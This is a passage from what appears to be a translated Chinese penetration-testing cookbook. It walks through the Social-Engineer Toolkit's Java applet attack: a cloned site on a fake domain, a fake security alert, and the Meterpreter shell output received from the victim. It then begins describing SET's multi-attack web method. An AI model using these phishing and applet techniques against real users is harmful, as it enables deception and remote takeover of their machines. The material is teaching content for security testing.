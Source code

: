 1.  您可以在`/pentest/exploits/set/src/web_clone/site/template`找到您的克隆模板以及 jar。现在一旦目标用户访问克隆的网站（托管在假域名上），将弹出一个小程序消息，看起来完全是一个安全的警报消息：![操作步骤...](img/7423_10_03.jpg)

现在一旦目标用户点击**允许**，恶意小程序就会被执行，并允许执行有效载荷。Metasploit 监听器将从目标机器接收到一个连接，因此我们将拥有一个活动会话：

```
[*] Sending stage (748544 bytes) to 192.168.56.103
[*] Meterpreter session 1 opened (192.168.56.103:443 ->
Thu Sep 09 10:06:57 -0400 2010
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...
meterpreter > shell
Process 2988 created.
Channel 1 created.
Microsoft Windows XP [Version 6.1]
(C) Copyright 1985-2001 Microsoft Corp.
C:\Documents and Settings\Administrator\Desktop> 
```

同样，我们也可以执行其他攻击。您可以看到 SET 如何轻松地为我们创建攻击向量，并为我们提供对我们的情景的完全控制。SET 的最好之处在于它可以让您在任何时候实施自己的修改和更改。

## 工作原理...

Java 小程序感染是一种常见的 Java 小程序漏洞，允许在受保护的沙箱环境之外执行小程序。未签名或不安全的小程序在受限制的系统资源访问权限的沙箱环境中执行。一旦恶意小程序在警告消息后被允许执行，它就获得了在目标机器上完全访问资源的特权，因为它现在处于沙箱环境之外。这允许小程序执行 Java 漏洞并允许远程代码执行。同样，其他基于网络的攻击向量使用浏览器将攻击传输到目标系统。社会工程再次在制造愚弄用户的情景方面发挥作用。攻击者可以在`href`标签下隐藏恶意链接，或者可以使用假签名对小程序进行签名，以使其看起来完全合法。SET 模板是设计攻击的良好来源。

# 多攻击网络方法

多攻击网络方法通过将多个攻击组合成一个攻击方法，将网络攻击提升到了一个新的水平。这种攻击方法允许我们将多个利用和漏洞组合到一个单一的格式中。一旦目标用户打开文件或 URL，每个攻击都会依次进行，直到报告成功的攻击。SET 自动化了将不同攻击组合成一个单一网络攻击方案的过程。让我们继续前进，看看这是如何完成的。

## 操作步骤...

多攻击网络方法与其他基于网络的攻击类似。我们首先选择一个模板，可以导入或克隆。不同之处在于下一步，我们可以选择可以添加到网络攻击中的各种利用。
